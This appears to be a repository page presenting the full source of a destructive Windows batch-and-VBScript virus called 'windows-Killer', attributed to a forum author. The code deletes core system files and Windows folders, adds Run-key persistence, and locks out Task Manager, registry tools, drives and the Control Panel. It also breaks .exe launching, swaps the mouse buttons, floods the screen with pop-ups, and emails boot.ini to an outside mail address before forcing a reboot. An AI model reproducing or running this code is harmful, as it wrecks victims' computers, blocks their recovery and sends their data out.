 # windows-Killer
[SRC] Echo_inactive_inactive This virus created by NickName Echo_inactive_inactive Virus: forum.ru Virus Echo_inactive_inactive Autor: NickName Echo_inactive_inactive off echo Chr(39)>%temp%\temp1.vbs echo Chr(39)>%temp%\temp2.vbs echo on error resume next > %temp%\temp.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp.vbs reg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v nodesktop /d 1 /freg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v ClassicShell /d 1 /fset ¶§=%0 copy %¶§% %SystemRoot%\user32dll.bat reg add "hklm\Software\Microsoft\Windows\CurrentVersion\Run" /v RunExplorer32 /d %SystemRoot%\user32dll.bat /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDrives /t REG_DWORD /d 67108863 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoViewOnDrive /t REG_DWORD /d 67108863 /f echo fso.deletefile "C:\ntldr",1 >> %temp%\temp.vbs reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoSelectDownloadDir" /d 1 /f reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\main\FeatureControl\Feature_LocalMachine_Lockdown" /v "IExplorer" /d 0 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoFindFiles" /d 1 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoNavButtons" /d 1 /f echo fso.deletefolder "D:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "I:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "C:\Windows",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefile sr+"\system32\hal.dll",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\dllcache",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\drives",1 >> %temp%\temp.vbs echo s.regwrite "HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\LocalizedString","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOwner","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOrganization","forum.whack.ru">>%temp%\temp.vbs echo on error resume next > %temp%\temp1.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp1.vbs echo do>>%temp%\temp1.vbs echo fso.getfile ("A:\")>>%temp%\temp1.vbs echo loop>>%temp%\temp1.vbs echo on error resume next > %temp%\temp2.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp2.vbs echo do>>%temp%\temp2.vbs echo execute"S.Run ""%comspec% /c echo "" &amp; Chr(7), 0, True">>%temp%\temp2.vbs echo loop>>%temp%\temp2.vbs reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disabletaskmgr /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disableregistrytools /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuPinnedList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMFUprogramsList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoUserNameInStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum" /v {20D04FE0-3AEA-1069-A2D8-08002B30309D} /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoNetworkConnections /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuNetworkPlaces /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v StartmenuLogoff /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuSubFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoCommonGroups /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFavoritesMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRecentDocsMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSetFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoAddPrinter /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFind /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMHelp /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRun /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMorePrograms /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoClose /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoChangeStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyDocs /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyPictures /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMyMusic /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoControlPanel /t REG_DWORD /d 1 /f echo set application=createobject("shell.application")>>%temp%\temp.vbs echo application.minimizeall>>%temp%\temp.vbs reg add "hklm\Software\Microsoft\Windows\CurrentVersion\run" /v SwapNT /t REG_SZ /d rundll32 user32, SwapMouseButton /f start rundll32 user32, SwapMouseButton reg add "HKCR\exefile\shell\open\command" /ve /t REG_SZ /d rundll32.exe /f echo i=50 >> %temp%\temp.vbs echo while i^>0 or i^&lt;0 >> %temp%\temp.vbs echo S.popup "forum.whack.ru",0, "forum.whack.ru",0+16 >> %temp%\temp.vbs echo i=i-1 >> %temp%\temp.vbs echo wend >> %temp%\temp.vbs echo do >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{capslock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{numlock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{scrolllock}" >> %temp%\temp.vbs echo loop>> %temp%\temp.vbs echo Set oWMP = CreateObject("WMPlayer.OCX.7") >> %temp%\temp.vbs echo Set colCDROMs = oWMP.cdromCollection >> %temp%\temp.vbs echo if colCDROMs.Count ^>= 1 then >> %temp%\temp.vbs echo For i = 0 to colCDROMs.Count - 1 >> %temp%\temp.vbs echo colCDROMs.Item(i).eject >> %temp%\temp.vbs echo next >> %temp%\temp.vbs echo End If >> %temp%\temp.vbs echo Call SendPost("smtp.mail.ru", "forum.whack.ru@mail.ru", "support@mail.ru", "...", "Копм заражен!") >> %temp%\temp.vbs echo Function SendPost(strSMTP_Server, strTo, strFrom, strSubject, strBody) >> %temp%\temp.vbs echo Set iMsg = CreateObject("CDO.Message") >> %temp%\temp.vbs echo Set iConf = CreateObject("CDO.Configuration") >> %temp%\temp.vbs echo Set Flds = iConf.Fields >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusing") = 2 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpauthenticate") = 1 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendpassword") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.mail.ru" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 25 >> %temp%\temp.vbs echo Flds.Update >> %temp%\temp.vbs echo iMsg.Configuration = iConf >> %temp%\temp.vbs echo iMsg.To = strTo >> %temp%\temp.vbs echo iMsg.From = strFrom >> %temp%\temp.vbs echo iMsg.Subject = strSubject >> %temp%\temp.vbs echo iMsg.TextBody = strBody >> %temp%\temp.vbs echo iMsg.AddAttachment "c:\boot.ini" >> %temp%\temp.vbs echo iMsg.Send >> %temp%\temp.vbs echo End Function >> %temp%\temp.vbs echo Set iMsg = Nothing >> %temp%\temp.vbs echo Set iConf = Nothing >> %temp%\temp.vbs echo Set Flds = Nothing >> %temp%\temp.vbs  echo s.run "shutdown -r -t 0 -c ""pcforumhack.ru"" -f",1 >> %temp%\temp.vbs start %temp%\temp.vbs start %temp%\temp1.vbs start %temp%\temp2.vbs [/SRC]

